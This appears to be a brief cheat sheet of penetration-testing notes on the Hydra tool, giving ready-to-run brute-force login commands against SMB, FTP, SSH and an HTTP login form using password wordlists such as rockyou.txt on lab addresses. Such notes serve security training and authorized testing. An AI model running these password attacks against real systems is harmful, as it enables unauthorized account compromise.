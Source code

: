 
# Overview
Brute force logins

# Options
- -l/L : username/user File
- -p/P : password/password File

---

# Service Examples

## SMB

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.33.3 smb`
*lower* case to give string and *upper* case to pass in file
- -l admin : username
- -P /wordlist.txt : pass in wordlist

---

## FTP
dictionary attack with *userlist* and *passlist*
```bash
hydra -L /usr/share/metasploit-framework/data/wordlist/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.24.3 ftp
```

---

## SSH
dictionary attack
`hydra -l student -P /usr/share/wordlist/rockyou.txt 192.168.7.3 ssh`

---

## Http-Form
http-post-form "login page : post data : error check"
```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -s 80 -t 30 -v
```

`-t` : threads
`-s` : specific port